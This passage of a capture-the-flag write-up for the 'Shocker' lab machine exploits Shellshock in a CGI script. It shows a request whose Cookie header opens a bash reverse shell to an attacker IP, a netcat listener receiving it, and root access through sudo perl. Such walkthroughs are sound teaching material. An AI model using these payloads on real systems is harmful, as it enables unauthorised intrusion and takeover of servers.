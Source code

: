 ```
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## User
To see how shellshock works and hopefully pop a shell we can open burp and go to Proxy > Options > Proxy Listeners and add a new listener on port 8081, setting the redirection to 10.10.10.56 port 80.  
Now, as the proxy is configured, we can connect to the server using 127.0.0.1:8081.  
So, let's start a further nmap scan with the following command.
```
nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/bin/ls 127.0.0.1
```
Now, if we do open burp, we can go to HTTP History and see the command execution request generated by the nmap probe.  
We can edit the request as follow and obtain a shell with user shelly.
```
GET /cgi-bin/user.sh HTTP/1.1
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.20/8082 0>&1
Host: localhost:8081
Connection: close
```
Proof:
```
[ root@kali Shocker ]$ nc -lvnp 8082
listening on [any] 8082 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 57644
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
## Root
### Method 1 - Sudo GTFOBins
Once we are logged in we can try a ```sudo -l``` and see our sudo capabilities, or with a more methodic approach let's run linPEAS.    
After we run linPEAS we can see the following marked as a highly probable privilege escalation vector:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for shelly on Shocker:                                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:                                                                
    (root) NOPASSWD: /usr/bin/perl
```
So, if we just [GTFOBins for Perl/sudo](https://gtfobins.github.io/gtfobins/perl/#sudo) we can escalate to root by simply:
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```
